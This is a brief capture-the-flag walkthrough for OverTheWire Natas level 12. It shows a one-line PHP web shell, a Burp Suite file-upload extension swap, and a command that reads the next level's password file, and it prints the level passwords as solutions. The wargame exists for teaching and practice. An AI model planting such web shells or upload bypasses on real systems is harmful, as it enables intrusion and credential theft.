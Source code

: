 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas12 EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 URL:
<http://natas12.natas.labs.overthewire.org>

create a file named shell.php

\<? system($_GET\['cmd'\]);//or you can insert your complete shell code
?\> start burpsuite upload file replace name with shell.php instead of
jpeg

then go to the url and add ?cmd=cat /etc/natas_webpass/natas13
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY